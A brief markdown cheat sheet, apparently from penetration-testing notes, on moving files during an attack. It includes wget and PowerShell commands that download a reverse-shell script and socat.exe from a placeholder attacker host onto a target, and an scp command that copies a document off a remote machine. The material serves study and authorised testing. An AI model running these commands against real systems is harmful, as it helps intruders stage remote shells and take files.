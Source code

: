 ```yaml
---
description: Cheat sheet to upload or download shell/files etc
---
```


# File Transfers

### Download 

#### Wget

```text
wget <LOCAL-IP>/reverse.sh -O /tmp/reverse.sh
```

#### Powershell

```text
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

SCP

```text
scp ubuntu@192.168.1.30:/home/ubuntu/documents.txt notes.txt
```



